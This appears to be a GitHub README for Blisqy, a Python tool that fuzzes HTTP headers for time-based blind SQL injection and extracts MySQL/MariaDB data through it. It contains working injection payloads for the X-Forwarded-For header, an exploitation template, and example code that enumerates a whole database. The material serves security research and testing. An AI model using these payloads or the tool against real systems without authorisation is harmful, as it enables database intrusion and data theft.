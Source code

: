 # 1. Blisqy

Blisqy is a tool to aid Web Security researchers to find Time-based Blind SQL injection on HTTP Headers and also exploitation of the same vulnerability.

The exploitation enables slow data siphon from a database (currently supports MySQL/MariaDB only) using bitwise operation on printable ASCII characters, via a blind-SQL injection.

For interoperability with other Python tools and to enable other users utilise the features provided in Blisqy, the modules herein can be imported into other Python based scripts.

When testing for Time-based Blind SQL injections, any network lag or congestion can affect the effectiveness of your fuzzing or exploitation. To compensate for the possible network lags and uncertainties that might cause delays, Blisqy time comparison is dynamic and it's calculated at runtime for each test. The tests utilizes `greenlet`(alight-weight cooperatively-scheduled execution unit) to provide a high-level synchronous API on top of `libevevent` loop. It provides a fast and efficient way of carrying out the payload tests in a short time, also, one particular test should not affect  another because they are not fully done in a sequential method.

## 1.1. New Feature(s)

Blisqy now supports fuzzing for Time-based Blind SQL Injection on HTTP Headers and the main functionalities (fuzzing and exploitation) separated to independent files for portability.

## 1.2. Fuzzing with Blisqy

To use the Fuzzing functionality, import the following module in your Python script and provide a target along with the fuzzing data as shown below:

```python
from lib.blindfuzzer import blindSeeker
```

Target parameters should be in a Dictionary/JSON format, for example (*Note the variable data-types)*:

```python
    Server = '192.168.56.101'
    Port = 80
    Index = 1
    Method = 'GET'
    Headerfile = "fuzz-data/headers/default_headers.txt"
    Injectionfile = "fuzz-data/payloads/mysql_time.txt"

    target_params = {
        'server': Server,
        'port': Port,
        'index': Index,
        'headersFile': Headerfile,
        'injectionFile': Injectionfile,
        'method': Method
    }
```

Invoking the fuzzer once the target parameters are provided is as shown below :

```python
vulns = blindSeeker(target_params)
vulns.fuzz()
```

You can checkout `FindBlindSpot.py` for this example provided.

### 1.2.1. Sample Fuzzing Output

If you are successful, you should get a report of the 'injectable' tests carried out. Please note, as much as Blisqy tries to compensate for network lags and congestion while testing it's is important to proof-test the reported positive tests before proceeding.

Below is a sample report:

```text
=================== [ Key Terms] ===================
Index = Configured Constant (Delay)
Base Index Record = Server Ping Before Fuzzing
Benching Record  = Base Index Record + Index
Fuzzing Record = Time taken to process request with Index

===================== [ Logic] =====================
If Fuzzing Record is greater than Benching Record,
treat as a positive; else, treat as a negative.



[+] Injection : X-Forwarded-For : ' or sleep(1)#

[+] Header : X-Forwarded-For

[*] Index Record : 0.000160932540894
[*] Benching Record : 1.00016093254
[*] Fuzzing Record : 9.01
[!] Test 436 is Injectable.
__________________________________

[+] Injection : X-Forwarded-For : ' or sleep(1)='

[+] Header : X-Forwarded-For

[*] Index Record : 0.000378847122192
[*] Benching Record : 1.00037884712
[*] Fuzzing Record : 18.02
[!] Test 438 is Injectable.
__________________________________
```

Screenshot of Blisqy Fuzzer in action:

![Fuzz for Blind SQLi](https://i.imgur.com/Bc8M3V7.png)

## 1.3. Exploitation with Blisqy

After finding a potential Time-based Blind SQL injection, you can prepare a script to Exploit the vulnerable Web application.

Just as the fuzzer, you can import the module for exploitation in your Python script and define a template for the exploitation operation. Below is an example of how to import the module in a Python script:

```python
from lib.blindexploit import SqlEngine
```

Next, you will need to provide details of your target along with it's target parameters for exploitation. Below is a sample implementation of exploiting the found blind sql injection found by the fuzzer:

The target data should be in a Dictionary/JSON format specifying the server, port, the found vulnerable header and it's value (some applications will need or check for a certain value). Also *Note the variable data-types*.

```python
target = {
    'server': '192.168.56.101',
    'port': 80,
    'vulnHeader': 'X-Forwarded-For',
    'headerValue': 'fuzzer'
}
```

Target parameters should follow allowing the user to specify some options related to the exploitation preferences.

```python
targetParam = {
    'sleepTime': 0.1,
    'payload': 'pass',
    'mysqlDig': 'yes',
    'interactive': 'on',
    'verbosity': 'high'
}
```

- **sleepTime** is the delay to be used in the payloads
- **payload** is an option to run the exploitation with a custom SQL query e.g. `select @@hostname`. The default option is `'pass'`.
- **mysqlDig** enables the exploitation to be automatic and to enumerate all the available tables in the schema.
- **interactive** is an option to enable the user interact with the exploitation routine. This can be handy when you want to skip to the interesting parts of the DB.
- **verbosity** can be high, medium or low. This just controls the output information from the exploitation routine.

After providing your target and its parameters, the next thing to provide is a template for the exploitation routine. Blisqy provides a way users can specify where to inject the exfiltration SQL payload and the `sleeptime` delay. Below is an example of an implementation for one of the found vulnerabilities on the sample report provided in the previous subsection.

Found injection on X-Forwarded-For header:

```sql
' or sleep(1)='
```

Template for this particular injection:

```sql
sqli = "' or if((*sql*),sleep(*time*),0) and '1'='1"
```

During runtime, the `*sql*` will be replaced with an SQL injection payload and `*time*` will be replaced with a delay for sleep().

Once all these are done, the last part is to instantiate the exploitation routine and let the `MysqlDigger()` method do the working.

```python
# Create an instance
BlindSql = SqlEngine(target, targetParam, sqli)

# Enumerate the MySql Database
BlindSql.MysqlDigger()
```

You can check `ExploitBlindSpot.py` for this example provided.

Below is an example of an exploitation operation:

![Exploit Blind SQLi](https://i.imgur.com/HfKoJrz.png)

## 1.4. To Do

- ~~Integrate an intelligent Fuzzer for hunting SQL injection vulnerability(ies) on HTTP Headers and Web Elements~~
- Support Blind-SQLi fuzzing and exploitation on WEB endpoints apart from HTTP Headers.

### 1.4.1. Contribute

You can alert me of anything interesting you've found with Blisqy or what you think should be added/removed.

- Share your ideas and wishlist,
- Spot a typo? Lemme know,
- Found ways we can optimise Blisqy?,
- Suggest ways to incorporate support for other DBMS.

### 1.4.2. Reference

- (PDF) Time-Based Blind SQL Injection via HTTP Headers: Fuzzing and Exploitation.. Available from: [https://www.researchgate.net/publication/328880240_Time-Based_Blind_SQL_Injection_via_HTTP_Headers_Fuzzing_and_Exploitation](https://www.researchgate.net/publication/328880240_Time-Based_Blind_SQL_Injection_via_HTTP_Headers_Fuzzing_and_Exploitation)

- PentesterLab - From SQL Injection to Shell II [https://pentesterlab.com/exercises/from_sqli_to_shell_II/course](https://pentesterlab.com/exercises/from_sqli_to_shell_II/course)
